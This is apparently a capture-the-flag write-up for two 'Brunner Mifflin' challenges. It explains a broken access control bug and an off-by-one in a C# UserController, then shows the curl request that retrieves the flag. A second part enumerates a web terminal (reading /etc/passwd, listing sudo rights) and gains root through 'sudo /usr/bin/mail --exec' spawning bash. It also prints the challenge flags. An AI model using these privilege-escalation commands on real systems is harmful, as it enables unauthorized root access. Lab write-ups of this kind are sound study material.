

# Brunner Mifflin (User)

## Summary
`UserController.cs` has two vulnerabilities:
1. **Broken Access Control** — `GET /api/User/Admin/{role}`
   No authentication or authorization check exists on this route. Guessing the correct role string (`itguy`) alone returns redacted data.
2. **Off-by-one (Index Out of Range)** — `GET /api/User/{id}`
   The bounds check uses `id > users.Length` instead of `id >= users.Length`, allowing an `IndexOutOfRangeException` when `id == users.Length`.
The challenge hint "view all the monsters" suggests brute-forcing `id` to enumerate users/monsters stored in the array. Both bugs are exploitable with simple GET requests — no advanced technique required.
## Solution
Using this command

```bash
curl -sk https://brunner-mifflin-user-2dff178753937200-global.challs.brunnerne.xyz/api/User/Admin/itguy
```
Output: 
```
brunner{1tGuyW111F1x}
```
## Flag
```
brunner{1tGuyW111F1x}
```
# Brunner Mifflin (Root)

## Summary
As we solved the challenge Brunner Mifflin (User), now we are going to elavate to the root user in this challenge (Same challenge instance).
## Solution
Open this on website
```
https://brunner-mifflin-user-2dff178753937200-global.challs.brunnerne.xyz/terminal
```

Now to get root user in this terminal, we need to list the file that can advice us to elavate root user
```
id
sudo -l
pwd
ls -la /
ls -la /home
ls -la /opt
ls -la /root 2>&1
cat /etc/passwd
ps aux
ss -tulpn 2>&1
``` 
All of this command not let us to get the root so we need to use this 
```
sudo /usr/bin/mail --exec='! /bin/bash'
sudo /usr/bin/mail -s test root --exec='! /bin/bash'
```
When we get the root use this 
```
id
cat /root/flag.txt 2>&1
cat /flag.txt 2>&1
find / -name "*flag*" 2>/dev/null
ls -la /root/
```
Output
```
brunner{1tguy_t4k35_m41l_s3cur1ty_v3ry_53r10u5}
```
## Flag
```
brunner{1tguy_t4k35_m41l_s3cur1ty_v3ry_53r10u5}
```
